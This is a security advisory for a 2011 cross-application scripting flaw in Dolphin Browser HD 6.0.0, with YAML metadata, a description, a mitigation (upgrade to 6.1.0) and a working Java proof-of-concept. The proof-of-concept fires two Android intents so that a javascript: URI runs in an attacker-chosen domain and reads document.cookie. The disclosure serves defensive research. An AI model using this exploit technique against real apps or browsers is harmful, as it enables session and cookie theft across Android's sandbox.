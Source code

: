 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-09-20' 
alephid: ALEPH-2011006
date: '2011-09-20'
title: 'Dolphin Browser HD Cross-Application Scripting'
severity: high
product:
    - Dolphin Browser HD
vulnerable:
    - Version 6.0.0
mitigation: 'Install version 6.1.0 or later.'
references:
    - src: Android Browser XAS paper
      url: http://blog.watchfire.com/files/advisory-android-browser.pdf
 
---
```

A 3rd party application may exploit Dolphin Browser HD's URL loading process in order to inject JavaScript code into an arbitrary domain thus break Android's sandboxing. This can be done by sending two consecutive startActivity calls. The first call includes the attacked domain, and causes Dolphin Browser HD to load it, while the second call contains JavaScript code. the JavaScript URI will be opened under the current tab, i.e. the attacked domain.

## Proof-of-Concept ##
```java
public class CasExploit extends Activity
{
    static final String mPackage = "mobi.mgeek.TunnyBrowser";
    static final String mClass = "BrowserActivity";
    static final String mUrl = "http://target.domain/";
    static final String mJavascript = "alert(document.cookie)";
    static final int mSleep = 15000;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        startBrowserActivity(mUrl);
        
        try {
            Thread.sleep(mSleep);
        }
        
        catch (InterruptedException e) {}
        startBrowserActivity("javascript:" + mJavascript);
    }
    private void startBrowserActivity(String url) {
        Intent res = new Intent("android.intent.action.VIEW");
        res.setComponent(new ComponentName(mPackage,mPackage+"."+mClass));
        res.setData(Uri.parse(url));
        startActivity(res);
    }
}
```
